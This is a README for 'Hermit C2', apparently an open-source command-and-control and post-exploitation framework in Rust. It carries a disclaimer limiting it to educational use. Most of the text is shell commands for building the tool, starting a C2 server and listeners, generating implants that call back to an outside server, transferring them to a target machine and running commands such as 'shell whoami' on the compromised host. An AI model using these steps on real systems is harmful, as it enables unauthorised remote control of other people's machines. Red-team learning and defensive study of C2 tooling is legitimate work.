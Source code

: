 # Hermit C2

Command & Control, Post-Exploitation Framework written in Rust.  
I developed this project for learning Rust and how C2 framework works.

<br />

## WARNING

This project is only be used for educational and learning purposes and for experimentation in your own environment.  
It's prohibited to use on systems not under your control.

<br />

## PREREQUISITES

### C2 Server

```sh
# For Linux agent
rustup target add x86_64-unknown-linux-gnu
rustup target add i686-unknown-linux-gnu
# `libxcb` is used for screenshots in Linux target machine.
sudo apt install libxcb-xfixes0-dev

# For Windows agent
rustup target add x86_64-pc-windows-gnu
rustup target add i686-pc-windows-gnu
```

- **Linux**

Run the following command in the system which is going to run C2 server.

```sh
sudo apt install -y git build-essential mingw-w64
```

<br />

## USAGE

### C2 Server

```sh
hermit server
```

### C2 Client

```sh
# Connect to C2 server
hermit client -H my-c2-server.com -P 9999

# Print the usage.
Hermit $ help

# Add a new listener and start it
Hermit $ listener add -H my-c2-server.com -P 8000
Hermit $ listener start 0

# Generate a new implant
Hermit $ implant gen -l http://my-c2-server.com:8000/

# After genrating, transfer the implant to target machine and run it.
# When the target connected to our listener, we can control this machine.

# List agents
Hermit $ agents

# Switch to a specified agent mode
Hermit $ agent use 0

# e.g. Execute shell command for the target
Hermit [agent: agent_0123456] $ shell whoami
```

<br />

## INSTALLATION

```sh
git clone https://github.com/hideckies/hermit.git
cd hermit
cargo build --release
# After compiling, the `hermit` binary will be stored at `target/release/` folder.
```